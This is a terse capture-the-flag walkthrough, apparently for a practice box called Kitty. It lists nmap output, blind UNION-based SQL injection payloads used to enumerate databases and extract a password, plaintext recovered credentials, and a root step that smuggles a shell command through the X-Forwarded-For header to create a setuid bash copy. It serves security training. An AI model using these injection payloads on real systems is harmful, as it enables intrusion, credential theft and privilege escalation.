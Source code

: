# Kitty

10.10.237.211

## nmap

22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b0:c5:69:e6:dd:6b:81:0c:da:32:be:41:e3:5b:97:87 (RSA)
|   256 6c:65:ad:87:08:7a:3e:4c:7d:ea:3a:30:76:4d:04:16 (ECDSA)
|_  256 2d:57:1d:56:f6:56:52:29:ea:aa:da:33:b2:77:2c:9c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

## http 80

sqli: user'-- -

wfuzz --hh 1147 -c -w /usr/share/wordlists/seclists/Usernames/Names/names.txt  -d "username=FUZZ%27--+-&password=sqdfqsdfsqdfsdf" http://10.10.181.136/index.php

=> kitty

' UNION SELECT 1,2,3,4-- -

=> 4 columns

### DB

' UNION SELECT 1,2,3,4 FROM information_schema.schemata WHERE schema_name LIKE BINARY "a%"-- -

- bf_databases.py

devsite
information_schema
mywebsite
performance_schema

### TABLES

' UNION SELECT 1,2,3,4 FROM information_schema.tables WHERE table_schema = 'mywebsite' AND table_name LIKE BINARY 'u%'-- -

For mywebsite:
- siteusers

For devsite:
- siteusers

### COLUMNS

' UNION SELECT 1,2,3,4 FROM information_schema.COLUMNS WHERE table_schema = 'mywebsite' AND table_name = 'siteusers' AND COLUMN_NAME LIKE BINARY 'u%'-- -

For mywebsite:
- created_at
- id
- password
- username

For devsite:
- created_at
- id
- password
- username

### PASSWORD

' UNION SELECT 1,2,3,4 FROM siteusers WHERE username = 'kitty' AND password LIKE BINARY '{result}{char}%'-- -

L0ng_Liv3_KittY

## foothold

kitty:L0ng_Liv3_KittY

## root

In /opt/log_checker.sh, it reads content of /var/www/development/logged

It is filled when a forbidden word is used in index.php using field X-Forwarded-For

To access this page, we check /etc/apache2/sites-enabled/dev_site.conf
-> <VirtualHost 127.0.0.1:8080>

To visit it:
ssh -L 8081:localhost:8080 kitty@10.10.39.28

Use the password 'sleep' to trig "SQL Injection detected. This incident will be logged"

In burp:
X-Forwarded-For: && cp /bin/bash /tmp/kikou && chmod +s /tmp/kikou

